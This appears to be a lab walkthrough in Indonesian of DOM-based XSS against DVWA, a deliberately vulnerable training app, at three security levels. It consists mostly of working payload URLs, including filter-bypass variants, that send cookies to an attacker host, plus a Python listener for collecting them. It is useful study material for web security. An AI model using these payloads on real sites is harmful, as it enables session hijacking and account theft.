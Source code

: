 # XSS (DOM)
DOM based XSS muncul ketika Javascript mengambil data dari sumber yang dapat dikontrol oleh penyerang misalnya seperti URL, yang memungkinkan penyerang mengeksekusi code JavaScript yang berbahaya dan membajak akun pengguna lain.

## Security Low
Menampilkan cookie halaman
```sh
http://<IP_Server>/DVWA/vulnerabilities/xss_d/?default=<script>alert(document.cookie);</script>
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/XSS%20DOM/xss%20dom%201.JPG)

Membuat halaman untuk menampung cookie
```sh
python3 -m http.server 80
```

Melakukan pencurian cookie dan kirim ke halaman penampung
```sh
http://<IP_Server>/DVWA/vulnerabilities/xss_d/?default=<script>window.location='http://<IP_Attacker>/?cookie='+document.cookie</script>
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/XSS%20DOM/xss%20dom%202.JPG)

## Security Medium
Menampilkan cookie halaman
```sh
http://<IP_Server>/DVWA/vulnerabilities/xss_d/?default=English</select><img src/onerror=alert(document.cookie)>
```

Melakukan pencurian cookie dan kirim ke halaman penampung
```sh
http://<IP_Server>/DVWA/vulnerabilities/xss_d/?default=English</select><img src/onerror=window.location='http://<IP_Attacker>/?cookie='+document.cookie>
```

## Security High
Menampilkan cookie halaman
```sh
http://<IP_Server>/DVWA/vulnerabilities/xss_d/#?default=<script>alert(document.cookie);</script>
```

Melakukan pencurian cookie dan kirim ke halaman penampung
```sh
http://<IP_Server>/DVWA/vulnerabilities/xss_d/#?default=<script>window.location='http://<IP_Attacker>/?cookie='+document.cookie</script>
```

